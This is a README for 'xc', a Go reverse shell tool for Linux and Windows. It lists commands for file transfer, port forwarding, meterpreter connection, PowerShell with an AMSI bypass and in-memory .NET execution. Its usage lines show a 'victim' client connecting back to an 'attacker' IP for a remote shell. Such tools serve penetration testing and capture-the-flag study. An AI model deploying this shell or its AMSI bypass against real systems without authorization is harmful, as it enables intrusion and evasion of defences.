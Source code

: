 # xc

Netcat like reverse shell for Linux & Windows. This is/was my project for learning golang so expect some bugs. If you want to support this project you can reach out to me on twitter or discord - plenty of things to work on ;)

## Features

### Windows

```  
Usage:
└ Shared Commands:  !exit
  !upload <src> <dst>
   * uploads a file to the target
  !download <src> <dst>
   * downloads a file from the target
  !lfwd <localport> <remoteaddr> <remoteport>
   * local portforwarding (like ssh -L)
  !rfwd <remoteport> <localaddr> <localport>
   * remote portforwarding (like ssh -R)
  !lsfwd
   * lists active forwards
  !rmfwd <index>
   * removes forward by index
  !plugins
   * lists available plugins
  !plugin <plugin>
   * execute a plugin
  !spawn <port>
   * spawns another client on the specified port
  !shell
   * runs /bin/sh
  !runas <username> <password> <domain>
   * restart xc with the specified user
  !met <port>
   * connects to a x64/meterpreter/reverse_tcp listener
└ OS Specific Commands:
  !powershell
    * starts powershell with AMSI Bypass
  !rc <port>
    * connects to a local bind shell and restarts this client over it
  !runasps <username> <password> <domain>
    * restart xc with the specified user using powershell
  !vulns
    * checks for common vulnerabilities
  !net <sample.exe> <arg1> <arg2> ...
    * Uploads & Runs a .NET assembly from memory
``` 

### Linux

```
Usage:
└ Shared Commands:  !exit
  !upload <src> <dst>
   * uploads a file to the target
  !download <src> <dst>
   * downloads a file from the target
  !lfwd <localport> <remoteaddr> <remoteport>
   * local portforwarding (like ssh -L)
  !rfwd <remoteport> <localaddr> <localport>
   * remote portforwarding (like ssh -R)
  !lsfwd
   * lists active forwards
  !rmfwd <index>
   * removes forward by index
  !plugins
   * lists available plugins
  !plugin <plugin>
   * execute a plugin
  !spawn <port>
   * spawns another client on the specified port
  !shell
   * runs /bin/sh
  !runas <username> <password> <domain>
   * restart xc with the specified user
  !met <port>
   * connects to a x64/meterpreter/reverse_tcp listener
└ OS Specific Commands:
 !ssh <port>
   * starts sshd with the configured keys on the specified port
``` 

## Examples

- Linux Attacker:	  `rlwrap xc -l -p 1337`			(Server)
- WindowsVictim :   `xc.exe 10.10.14.4 1337`	  (Client)
- Argumentless:     `xc_10.10.14.4_1337.exe`    (Client)

## Setup

Make sure you are running golang version 1.15+, older versions will not compile. I tested it on ubuntu: `go version go1.16.2 linux/amd64` and kali `go version go1.15.9 linux/amd64`

``` 
go get golang.org/x/sys/...
go get golang.org/x/text/encoding/unicode
go get github.com/hashicorp/yamux
go get github.com/ropnop/go-clr
pip3 install donut-shellcode
sudo apt-get install rlwrap
sudo apt-get install upx
``` 

Linux:
```
make
```

## Known Issues

* When !lfwd fails due to lack of permissions (missing sudo), the entry in !lsfwd is still created
* Can't Ctrl+C out of powershell started from !shell
* !net (execute-assembly) fails after using it a few times - for now you can !restart and it might work again
* Tested:
  - Kali (Attacker) Win 10 (Victim)

## Credits

* Included PrivescCheck by itm4n for Windows Clients: https://github.com/itm4n/PrivescCheck  
